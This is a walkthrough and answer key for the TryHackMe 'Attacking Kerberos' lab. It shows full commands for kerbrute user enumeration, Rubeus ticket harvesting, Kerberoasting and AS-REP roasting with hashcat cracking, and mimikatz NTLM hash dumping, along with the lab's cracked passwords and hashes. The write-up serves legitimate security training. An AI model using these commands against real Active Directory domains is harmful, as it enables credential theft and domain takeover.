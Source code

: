 # Attacking Kerberos

{% embed url="https://tryhackme.com/room/attackingkerberos" %}
https://tryhackme.com/room/attackingkerberos
{% endembed %}

## Task 1 Introduction

Attack Privilege Requirements

* Kerbrute Enumeration - No domain access required&#x20;
* Pass the Ticket - Access as a user to the domain required
* Kerberoasting - Access as any user required
* AS-REP Roasting - Access as any user required
* Golden Ticket - Full domain compromise (domain admin) required&#x20;
* Silver Ticket - Service hash required&#x20;
* Skeleton Key - Full domain compromise (domain admin) required

#### What does TGT stand for?

{% hint style="success" %}
`Ticket Granting Ticket`
{% endhint %}

#### What does SPN stand for?

{% hint style="success" %}
Service Principle Name
{% endhint %}

#### What does PAC stand for?

{% hint style="success" %}
`Privilege Attribute Certificate`
{% endhint %}

#### What two services make up the KDC?

{% hint style="success" %}
`AS, TGS`
{% endhint %}

## Task 2 Enumeration w/ Kerbrute

```bash
echo '10.10.94.12  CONTROLLER.local' | sudo tee -a /etc/hosts
```

#### How many total users do we enumerate?

```bash
wget https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-11-00.png>)

{% hint style="success" %}
`10`
{% endhint %}

#### What is the SQL service account name?

{% hint style="success" %}
`sqlservice`
{% endhint %}

#### What is the second "machine" account name?

{% hint style="success" %}
`machine2`
{% endhint %}

#### What is the third "user" account name?

{% hint style="success" %}
`user3`
{% endhint %}

## Task 3 Harvesting & Brute-Forcing Tickets w/ Rubeus

#### Which domain admin do we get a ticket for when harvesting tickets?

```bash
ssh Administrator@controller.local
cd Downloads
Rubeus.exe harvest /interval:30
```

![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-21-58.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-22-33.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-22-47.png>)

{% hint style="success" %}
`Administrator`
{% endhint %}

#### Which domain controller do we get a ticket for when harvesting tickets?

{% hint style="success" %}
`CONTROLLER-1`
{% endhint %}

## Task 4 Kerberoasting w/ Rubeus & Impacket

```bash
Rubeus.exe kerberoast /outfile:hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-32-25.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-32-51.png>)

```bash
scp 'Administrator@controller.local:/C:/Users/Administrator/Downloads/hash.txt' .
wget https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt
hashcat -a 0 -m 13100 hash.txt Pass.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-28 06-18-49.png>)

#### What is the HTTPService Password?

{% hint style="success" %}
`Summer2020`
{% endhint %}

#### What is the SQLService Password?

{% hint style="success" %}
`MYPassword123#`
{% endhint %}

## Task 5 AS-REP Roasting w/ Rubeus

```bash
Rubeus.exe asreproast /format:hashcat /outfile:hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-28 06-29-28.png>)

```bash
scp 'Administrator@controller.local:/C:/Users/Administrator/Downloads/hash.txt' .
hashcat -a 0 -m 18200 hash.txt Pass.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-28 06-38-38.png>)

#### What hash type does AS-REP Roasting use?

{% embed url="https://hashcat.net/wiki/doku.php?id=example_hashes" %}

{% hint style="success" %}
`Kerberos 5, etype 23, AS-REP`
{% endhint %}

#### Which User is vulnerable to AS-REP Roasting?

{% hint style="success" %}
`User3`
{% endhint %}

#### What is the User's Password?

{% hint style="success" %}
`Password3`
{% endhint %}

#### Which Admin is vulnerable to AS-REP Roasting?

{% hint style="success" %}
`Admin2`
{% endhint %}

#### What is the Admin's Password?

{% hint style="success" %}
`P@$$W0rd2`
{% endhint %}

## Task 7 Golden/Silver Ticket Attacks w/ mimikatz

```bash
xfreerdp /v:controller.local /u:administrator /p:'P@$$W0rd' /cert-ignore \
         +clipboard /dynamic-resolution /drive:share,/tmp
```

#### What is the SQLService NTLM Hash?

```bash
lsadump::lsa /inject /name:SQLService
```

![](<../../.gitbook/assets/Screenshot from 2022-03-28 19-57-59.png>)

{% hint style="success" %}
`cd40c9ed96265531b21fc5b1dafcfb0a`
{% endhint %}

#### What is the Administrator NTLM Hash?

```bash
lsadump::lsa /inject /name:Administrator
```

![](<../../.gitbook/assets/Screenshot from 2022-03-28 19-58-17.png>)

{% hint style="success" %}
`2777b7fec870e04dda00cd7260f7bee6`
{% endhint %}
